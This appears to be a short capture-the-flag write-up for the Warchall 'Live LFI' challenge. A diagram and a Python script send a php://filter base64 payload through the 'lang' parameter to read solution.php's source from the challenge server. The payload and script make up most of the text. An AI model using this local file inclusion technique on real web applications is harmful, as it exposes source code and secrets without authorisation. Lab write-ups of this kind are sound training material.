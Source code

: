 ================================================================================================================
[wechall] Warchall: Live LFI
================================================================================================================

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9;
        }
        step0 -> step1[label="index.php?lang=php://filter/convert.base64-encode/resource=solution.php',true);?>",arrowhead="normal"];
        step3 -> step2[label="@solve",arrowhead="normal"];
    }

|


solve
================================================================================================================


.. code-blcok:: python

    import requests


    url = "http://lfi.warchall.net/index.php"

    params = {
        "lang": "php://filter/convert.base64-encode/resource=solution.php"
    }

    r = requests.get(url, params=params, verify=False)
    print r.content
